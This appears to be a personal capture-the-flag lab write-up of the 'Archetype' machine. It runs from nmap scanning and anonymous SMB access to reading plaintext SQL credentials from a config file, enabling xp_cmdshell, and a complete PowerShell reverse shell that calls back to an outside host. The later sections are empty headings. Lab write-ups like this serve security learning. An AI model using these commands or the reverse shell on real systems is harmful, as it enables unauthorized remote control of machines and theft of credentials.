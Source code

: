 HaK dE BaUKs: 
===========================



### Recon 

### Scanning and Enumeration
`nmap -sC -sV -vv -O -oA nmap/initial-scan 10.10.10.27`
open ports of interest:
445: SMB
1433: SQL

### Foothold

upon checking out the smb server using `smbclient -N -L 10.10.10.27`, i found that there is a backup share, which sounds juicy, so gonna see if i can get anonymous access
 
turns out I could indeed access anonymously. First, I logged in: `smbclient -N \\\\10.10.10.27\\backups`, then I listed the directory using `dir`. Finally, upon seeing a config file, i scooped it using `get prod.dtsConfig`

Contents of the config:
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>

the interesteing here is that we actually found a sql connection string with credentials for the local user ARCHETYPE/sql_svc

To connect, I used Impacket's mssqlclient:
`mssqlclient ARCHETYPE\sql_svc@10.10.10.27 -windows-auth`

and passed in the password:
M3g4c0rp123

After getting into the sql server, the first thing to do is check if this user has sysadmin priviledges by executing `SELECT IS_SRVROLEMEMBER ('sysadmin')`, which returns '1' so ill assume that means true

From here, its just a matter of enalig xp_cmdshell to get rce:

```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```
with whoami, we see that the sql server is running in the context of ARCHETYPE\sql_svc, but this account doesnt have admin on the host, so lets try to get a rev shell and then worry about escalating priviledges.

powershell reverse shell:

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
Out-String );$sendback2 = $sendback + "# ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyt
e.Length);$stream.Flush()};$client.Close()
```

this is put into a file called shell.ps1, and served up on a python web server:
` python3 -m http.server 80`

### Priviledge Escalation

### Covering Tracks 

### Miscellaneous
